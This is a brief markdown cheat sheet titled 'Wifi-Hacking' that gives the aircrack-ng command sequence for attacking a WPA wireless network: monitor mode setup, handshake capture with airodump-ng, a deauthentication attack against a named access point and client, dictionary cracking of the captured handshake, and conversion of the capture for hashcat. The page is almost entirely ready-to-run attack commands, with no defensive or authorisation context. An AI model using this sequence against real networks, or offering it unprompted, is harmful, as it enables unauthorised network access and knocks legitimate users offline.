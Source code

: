 # Wifi-Hacking

#### Monitor Mode (Method - 1)

```
airmon-ng start wlan0 <channel name optional>
```

####

#### Monitor Mode (Method - 2)

```
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

####

#### Handshake Capture

```
 airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0
```

####

#### Deauthentication Attack

```
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0
```

{% hint style="info" %}
\-a --> MAC of AP

\-c --> MAC of client
{% endhint %}

####

#### Cracking Handshake

```
aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap
```

####

#### .CAP to hashcat compatible format

```
aircrack-ng input.cap -J hashcat_output
```
